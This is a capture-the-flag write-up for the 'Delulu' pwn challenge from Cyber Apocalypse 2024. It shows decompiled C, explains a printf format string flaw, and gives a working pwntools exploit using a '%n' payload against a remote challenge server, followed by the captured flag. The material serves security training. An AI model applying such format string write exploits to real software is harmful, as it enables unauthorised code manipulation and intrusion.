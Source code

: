 # Cyber Apocalypse 2024

## Delulu

> HALT! Recognition protocol initiated. Please present your face for scanning.
> 
> Author: w3th4nds
> 
> [`pwn_delulu.zip`](pwn_delulu.zip)

Tags: _pwn_

## Solution
The challenges comes with a binary. Checking what security measurements are in place, we can see that pretty much everything is enabled.

```bash
$ checksec delulu
[*] '/home/ctf/cyber/pwn/delulu/challenge/delulu'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

Let's see what the program actually does. The user is prompted to input some text. Since the read is limited, we don't have a buffer overflow here. Then the input text is printed by calling `printf`. Since the buffer is just passed to printf this calls for a [`format string attack`](https://ir0nstone.gitbook.io/notes/types/stack/format-string).

The flag is printed to us in function `delulu` and this function is only called when the variable `local_48` has value `0x1337beef`. Since the variable was initialized with `0x1337babe` the flag is not printed as per default.

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f);
  printf("\n[!] Checking.. ");
  printf((char *)&local_38);
  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Now, printf has an interesting [`format specifier`](https://cplusplus.com/reference/cstdio/printf/) that allows us to write `The number of characters written so far is stored in the pointed location`. So there is one thing we need, we need a pointer to `local_48` and luckily enough, we just have this pointer with `local_40`. 

Now we need to check the offset of our target pointer on the stack when printf is invoked. We can do this by inserting a lot of `%p%p%p%p` ... and checking at which position the pointer is printed (the pointer we can find with gdb). Turns out it's at offset `7`, so or payload looks like this:

```py
from pwn import *

p = remote("94.237.60.170", 42887)
payload = b"%322420463x%7$n"
p.sendline(payload)

while True:
    foo = p.recv().strip()
    if len(foo) != 0:
        print(foo.strip())
```

Running this, gives us the flag.

Flag `HTB{m45t3r_0f_d3c3pt10n}`